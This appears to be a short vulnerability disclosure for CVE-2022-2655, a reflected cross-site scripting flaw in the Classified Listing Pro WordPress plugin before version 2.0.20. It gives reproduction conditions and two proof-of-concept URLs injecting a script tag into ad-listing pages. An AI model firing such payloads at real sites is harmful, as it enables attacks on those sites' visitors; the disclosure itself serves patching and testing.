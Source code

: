 ## 😼 CVE-2022-2655

Classified Listing Pro < 2.0.20 - Reflected Cross-Site Scripting

## Description
After creating an ad using the Classified Listing Pro plugin, the ads menu, categories and subcategories become vulnerable to Reflected Cross Site Scripting (XSS)

<b>To reproduce the failure, it is necessary to create at least one category and one ad</b>

## Proof of Concept:
https://<TARGET>/all-ads/?"><script>alert(/XSS/)</script>
  
https://<TARGET>/all-properties/?"><script>alert(/XSS/)</script> 
  
  
